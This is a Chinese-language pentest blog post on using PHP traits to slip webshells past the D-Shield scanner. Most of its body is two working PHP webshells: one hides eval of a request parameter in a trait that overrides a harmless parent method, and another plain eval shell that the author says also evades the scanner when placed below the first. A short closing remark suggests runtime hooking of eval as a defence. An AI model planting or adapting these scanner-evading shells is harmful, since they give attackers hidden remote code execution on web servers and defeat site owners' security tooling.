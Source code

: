 ```yaml
---
title: 利用 PHP Trait 特性绕过 D 盾查杀
date: 2019-07-25 15:14:14
tags: [web, pentest]
---
```


帮着公司审着代码, 发现一个 PHP 挺好玩的特性, 突发奇想, 想看看能不能绕 D 盾, 没想到就成了.

<!--more-->

这个特性已经写在 Title 里面了, 具体可以参考 [php.net](https://www.php.net/traits) 上的介绍,  
说人话就是覆盖方法, 于是我们就可以覆盖父类的方法, 把无害的变成有害的.  

不废话, 直接看 shell 代码

```php
<?php
trait T {
    function dynamic() {
        eval("$this->s");
    }
}

class B {
    function dynamic() {
        echo "I am innocent";
    }

    function __construct() {
        $this->s = $_REQUEST['s'];
    }
}

class C extends B {
    use T;

    function __construct() {
        parent::__construct();
        $this->dynamic();
    }
}

$c = new C();
```

可以看到用 T 的 `dynamic` 覆盖了 B 的 `dynamic`, 导致了代码执行,  
个人猜测是 D 盾不支持 `trait`, 没有把里面的 eval 当成代码, 直接给跳过了.  

![](https://i.loli.net/2019/07/25/5d395c8b9e25359401.png)  
![](https://i.loli.net/2019/07/25/5d395c8b9b5f447606.png)  
![](https://i.loli.net/2019/07/25/5d395c8bbdf0329396.png)  

而且很神奇的是, 在这一段下面放一段本来过不了的, 也能过 D 盾了.

```php
class B {
    public $c;

    function __construct() { 
            $this->c = $_REQUEST['a'];
    }

    function a() {
            eval($this->c);
    }
}
$d = new B();
$d->a();
```

感觉 D 盾内应该有好几种引擎, trait 把其中基于数据流的引擎给搞崩了? 于是也就能过了.  
比较的谜...

最后, PHP 这种动态语言, 静态查杀的难度是真的大...  
特别涉及类, 过 D 盾的姿势非常多, 百度随便搜搜就有一堆. 想要真正防止, 还是靠 rasp 这种技术吧.  
hook eval, 然后检测数据流是否来自 $_POST, $_GET 等等

